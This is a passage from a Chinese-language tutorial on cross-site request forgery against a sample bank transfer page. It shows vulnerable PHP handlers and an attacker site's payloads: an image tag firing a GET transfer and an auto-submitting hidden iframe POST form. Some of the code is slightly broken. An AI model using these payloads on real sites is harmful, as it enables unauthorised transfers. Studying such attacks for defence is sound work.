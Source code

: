 ```
<form action="Transfer.php" method="POST">
　　　　<p>ToBankId: <input type="text" name="toBankId" /></p>
　　　　<p>Money: <input type="text" name="money" /></p>
　　　　<p><input type="submit" value="Transfer" /></p>
</form>
```

后台处理页面`Transfer.php`如下：

```
<?php
　　　　session_start();
　　　　if (isset($_REQUEST['toBankId'] &&　isset($_REQUEST['money']))
　　　　{
　　　　    buy_stocks($_REQUEST['toBankId'],　$_REQUEST['money']);
　　　　}
?>
```

危险网站`B`，仍然只是包含那句`HTML`代码：

```
　<img src=http://www.mybank.com/Transfer.php?toBankId=11&money=1000>
```

首先我们登录银行网站`A`，然后访问了危险网站`B`，这个时候我们发现我们的银行账户里面的钱又少了 1000 元。这次事故的原因是：银行的后台系统使用了`$_REQUEST`来获取请求的的数据，然而`$_REQUEST`既可以获取 GET 请求的数据，也可以获取 POST 请求的数据，这样就造成了后台处理程序没有办法分辨到底是`GET`请求还是`POST`请求，在`PHP`中，可以使用`$_GET`和`$_POST`分别获取`GET`请求和`POST`请求的数据。在`JAVA`中，用于获取请求数据`request`一样存在不能区分`GET`请求数据和`POST`数据的问题。

## 示例 3

经过前面 2 个惨痛的教训，银行决定把获取请求数据的方法也改了，改用`$_POST`，只获取`POST`请求的数据，后台处理页面`Transfer.php`代码如下：

```
<?php
　　　　session_start();
　　　　if (isset($_POST['toBankId'] &&　isset($_POST['money']))
　　　　{
　　　　    buy_stocks($_POST['toBankId'],　$_POST['money']);
　　　　}
?>
```

然而，危险网站`B`与时俱进，它改了一下代码:

```
<html>
　　<head>
　　　　<script type="text/javascript">
　　　　　　function steal()
　　　　　　{
          　　　　 iframe = document.frames["steal"];
　　     　　      iframe.document.Submit("transfer");
　　　　　　}
　　　　</script>
　　</head>

　　<body onload="steal()">
　　　　<iframe name="steal" display="none">
　　　　　　<form method="POST" name="transfer"　action="http://www.myBank.com/Transfer.php">
　　　　　　　　<input type="hidden" name="toBankId" value="11">
　　　　　　　　<input type="hidden" name="money" value="1000">
　　　　　　</form>
　　　　</iframe>
　　</body>
</html>
```
